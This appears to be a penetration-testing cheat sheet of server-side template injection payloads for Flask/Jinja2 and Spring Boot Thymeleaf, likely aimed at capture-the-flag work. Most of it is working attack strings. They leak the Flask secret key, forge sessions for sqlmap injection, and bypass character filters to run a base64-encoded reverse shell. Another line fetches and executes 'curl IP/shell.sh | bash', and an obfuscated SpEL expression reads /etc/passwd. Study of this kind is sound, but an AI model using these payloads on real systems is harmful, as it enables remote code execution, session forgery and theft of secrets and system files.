 # Navigation
- [**Flask-Jinja2**](#Flask-Jinja2)
- [**SpringBoot**](#SpringBoot)
# Flask-Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```python
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
Bypass filtered -> `()`
```python
# This was injected in an email field
"{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@deafcon.com
```
> Link: https://unicode-search.net/unicode-namesearch.pl?term=PARENTHESIS
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
# SpringBoot
## Thymleaf-engine
```java
Variable expression ： ${...}\
Select variable expression ： *{...}
Message expression ： #{....}
link URL expression ： @{...}
Fragment Expression ： ~{...}
```
- Read `/etc/passwd`
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
## References
- https://javamana.com/2021/11/20211121071046977B.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd